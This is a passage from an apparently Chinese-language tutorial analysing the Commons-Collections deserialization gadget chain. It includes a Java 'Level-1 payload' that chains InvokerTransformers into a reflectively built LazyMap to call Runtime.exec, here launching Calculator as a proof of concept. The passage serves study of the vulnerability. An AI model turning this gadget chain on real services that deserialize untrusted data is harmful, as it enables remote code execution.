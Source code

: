 最后总结一下限制为：

1. handler 第一个参数必须是**元注解类** （其实好像也就 Retention 跟 Target 能用）
2. innerMap 第一个参数必须是注解类的方法名

## LazyMap Gadget chain

同理，我们先对 level-0 的代码进行升级，使其利用到 LazyMap 的方法去触发 chain 的 transform

**Level-1 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        Class clz = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor construct = clz.getDeclaredConstructor(Map.class, Transformer.class);
        construct.setAccessible(true);
        LazyMap mapDemo = (LazyMap) construct.newInstance(innerMap, chainDemo);
        mapDemo.get("random");
    }
}
```

Lazy不可以直接 new 来实例化，需要通过反射调用。在实例化的时候调用构造方法对 `this.factory` 进行了附值

![](Commons-Collections-反序列化利用链分析/image-20210210165032955.png)

LazyMap 的 `get` 方法调用了已经附值的 `this.factory`  的 `transform` 方法，我们手动调用了 LazyMap 的 get 方法，因此会命令执行
